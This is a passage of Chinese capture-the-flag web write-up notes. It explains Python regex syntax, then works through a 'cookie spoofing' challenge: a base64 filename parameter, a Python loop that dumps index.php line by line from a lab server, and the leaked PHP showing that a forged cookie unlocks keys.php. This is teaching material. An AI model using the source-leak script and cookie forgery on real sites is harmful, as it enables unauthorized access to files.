 这个脚本重点是正则，解释下

re库

- re.search()表示从文本的第一个字符匹配到最后一个，其第一个参数为正则表达式，第二个参数是要匹配的文本
- group()返回字符串
- r''表示内容为原生字符串，防止被转义
- `(\d+[+\-*])+(\d+)：\d+` 表示匹配一个或多个数字；[+-*] 表示匹配一个加号或一个减号或一个乘号（注：减号在中括号内是特殊字符，要用反斜杠转义）；所以 (\d+[+-*])+ 表示匹配多个数字和运算符组成的“表达式”；最后再加上一组数字 (\d+) 即可



更多：

[re.search 和 re.findall 的区别](https://zhuanlan.zhihu.com/p/37027748)、、[个人博客正则表达式详解+re.research](https://www.cnblogs.com/xiaxiaoxu/p/9749655.html)



### cookie欺骗

##### 考点：python写脚本逐行还原源码、url里的base64、in_array、cookie伪造

[csdn wp](https://blog.csdn.net/qq_26090065/article/details/81588595)



```
http://120.24.86.145:8002/web11/index.php?line=&filename=a2V5cy50eHQ=
```

​	最后面是base64，解码得到keys.txt.,直接访问失败，受限。

​	尝试用 filename访问index.php（原url使用base64，这也将index.php进行编码），line参数应该是行数，试一下 line=2

​	发现出现一行代码，**改变line出现不同的代码，则尝试用python脚本读整个源码**

```php
$file= base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
```



python脚本：

```python
import requests
a=30
for i in range(a):
    url="http://120.24.86.145:8002/web11/index.php?line="+str(i)+"&filename=aW5kZXgucGhw" 
    s=requests.get(url)
    print s.text
```

index.php源码：

```php
<?php
error_reporting(0);
$file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
$line=isset($_GET['line'])?intval($_GET['line']):0;

if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
$file_list = array( 
'0' =>'keys.txt', 
'1' =>'index.php',
);

if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){       //看这里，flag应该在keys.php里
$file_list[2]='keys.php';  //添加数组元素
}

if(in_array($file, $file_list)){  //文件名在数组里才会显示
$fa = file($file);
echo $fa[$line];
```